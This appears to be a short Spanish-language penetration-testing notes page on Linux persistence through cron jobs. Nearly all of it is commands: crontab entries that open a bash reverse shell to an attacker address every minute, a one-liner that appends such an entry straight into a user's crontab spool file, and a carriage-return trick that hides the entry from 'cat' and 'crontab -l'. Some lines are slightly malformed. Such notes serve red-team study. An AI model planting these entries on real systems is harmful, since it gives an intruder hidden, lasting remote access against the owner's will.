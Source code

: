 # Persistencia

## Via cronjobs

Con `crontab -e`  podemos editar las entradas cron para generarnos una reverse shell:

```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port>0>&1'
```

O añadirlo directamente al archivo cron

```bash
echo -e "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port>0>&1'" >> /var/spool/cron/crontabs/<user>
```

Se puede sobreescribir con un carriage return el output del fichero cron para ocultarlo al hacerle un `cat` o un `crontab -l`:



{% code overflow="wrap" lineNumbers="true" %}
```bash
echo -e "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1'#\r                                                                    <blank-spaces>    "  >> /var/spool/cron/crontabs/<user>

#### Con nano 
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1 #alt-v+Ctrl-m# anything can go here this overwrites the cron entry you could just put lots of spaces here or a dummy cron entry

#### Con vim
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1 #Ctrl-v+Ctrl-m# anything can go here this overwrites the cron entry you could just put lots of spaces here or a dummy cron entry
```
{% endcode %}
